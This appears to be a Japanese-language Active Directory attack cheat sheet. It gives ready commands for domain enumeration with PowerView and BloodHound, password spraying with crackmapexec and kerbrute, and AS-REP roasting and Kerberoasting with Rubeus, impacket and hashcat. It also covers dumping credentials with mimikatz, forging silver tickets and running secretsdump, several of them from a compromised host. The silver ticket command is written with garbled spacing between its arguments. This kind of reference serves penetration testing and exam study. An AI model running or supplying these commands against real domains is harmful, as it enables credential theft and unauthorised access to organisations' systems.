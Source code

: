 ## 目次
1. [Enumeration](#enumeration)
2. [Powerview](#powerview)
3. [Bloodhound](#bloodhound)
4. [PsLoggedon](#psloggedon)
5. [Password Spraying](#password-spraying)
6. [AS-REP Roasting](#as-rep-roasting)
7. [Kerberoasting](#kerberoasting)
8. [Silver Tickets](#silver-tickets)
9. [Secretsdump](#secretsdump)
10. [サイト](#サイト)
## Enumeration
ドメインに参加しているマシンでローカル管理者を確認する:
```bash
net localgroup Administrators
```
---

## Powerview
```bash
Import-Module .\PowerView.ps1 # PowerShellでモジュールをロード、エラーが発生した場合は実行ポリシーを変更
Get-NetDomain # ドメインの基本情報を取得
Get-NetUser # ドメイン内のすべてのユーザーをリスト
```
- 上記コマンドの出力は、`select`コマンドを使用してフィルタリングできます。たとえば、`Get-NetUser | select cn`のように、`cn`は出力のサブヘッダーです。

```markdown
Get-NetGroup # ドメイングループを列挙
Get-NetGroup "group name" # 特定グループの情報を取得
Get-NetComputer # ドメイン内のコンピュータオブジェクトを列挙
Find-LocalAdminAccess # 現在のユーザーがドメイン内の任意のコンピュータに管理者権限を持っているかどうかをスキャン
Get-NetSession -ComputerName files04 -Verbose # Get-NetSessionでログオン中のユーザーを確認、詳細情報を追加
Get-NetUser -SPN | select samaccountname,serviceprincipalname # ドメイン内のSPNアカウントをリスト
Get-ObjectAcl -Identity <user> # ACE(アクセス制御エンティティ)を列挙し、SID(セキュリティ識別子)をリスト
Convert-SidToName <sid/objsid> # SID/ObjSIDを名前に変換

# 特定グループに対する「GenericAll」権限をチェック。取得後、convert-sidtonameを使用して変換可能
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-DomainShare # ドメイン内の共有を検索

Get-DomainUser -PreauthNotRequired -verbose # AS-REP Roastingの対象となるアカウントを特定

Get-NetUser -SPN | select serviceprincipalname # Kerberoastingの対象となるアカウント
---
```

## Bloodhound
### Collection methods - database

```bash
# Sharphound - sharphound.ps1を侵害されたマシンに転送
Import-Module .\Sharphound.ps1 
Invoke-BloodHound -CollectionMethod All -OutputDirectory <location> -OutputPrefix "name" # 指定された詳細で収集し、出力がWindowsマシンに保存される

# Bloodhound-Python
bloodhound-python -u 'uname' -p 'pass' -ns <rhost> -d <domain-name> -c all # 出力はKaliマシンに保存される
```

### Bloodhoundの実行
```bash
sudo neo4j console
```
- 次に取得した.jsonファイルをアップロードします。
---

## PsLoggedon
### ドメインのリモートシステムでのユーザーログオンを見る (外部ツール)
```bash
.\PsLoggedon.exe \\<computername>
```
---

## Password Spraying
### Crackmapexec - 出力に「Pwned!」と表示されるか確認
```bash
crackmapexec smb <IPまたはサブネット> -u users.txt -p 'pass' -d <domain> --continue-on-success # サブネットの場合、continue-on-successオプションを使用
```

### Kerbrute
```bash
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```
---

## AS-REP Roasting
### AS-REP Roastingの対象となるアカウントのハッシュを取得、Kali Linuxから実行
```bash
.\Rubeus.exe asreproast /nowrap
# 侵害されたWindowsホストからダンプ
```

```bash
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request
```

### ハッシュのクラック
```bash
hashcat -m 18200 hashes.txt wordlist.txt --force
```
---

## Kerberoasting
```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast # 侵害されたWindowsホストからダンプし、カスタム名で保存
```

```bash
impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request # Kaliマシンから実行
```

```bash
hashcat -m 13100 hashes.txt wordlist.txt --force # ハッシュのクラック
```
---

## Silver Tickets
### Mimikatzを使用してSPNユーザーのハッシュを取得
```bash
privilege::debug
sekurlsa::logonpasswords # ここでSPNアカウントのNTLMハッシュを取得
```

#### ドメインSIDの取得
```bash
ps>whoami /user
# ログインしているユーザーのSIDを取得。ユーザーのSIDが "S-1-5-21-1987370270-658905905-1781884369-1105" の場合、ドメインSIDは "S-1-5-21-1987370270-658905905-1781884369"
```

#### Silver Ticketの偽造 (Mimikatz)
```bash
kerberos::golden /sid:<domainSID>/domain:<domain-name>/ptt /target:<targetsystem.domain>/service:<service-name>/rc4:<NTLM-hash>/user:<new-user>exit
```

#### チケットの確認
```bash
ps>klist
```

### サービスへのアクセス
```bash
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```
---

## Secretsdump
```bash
secretsdump.py <domain>/<user>:<password>@<IP>
```

## サイト
- ＡＤの攻撃情報
https://wadcoms.github.io/#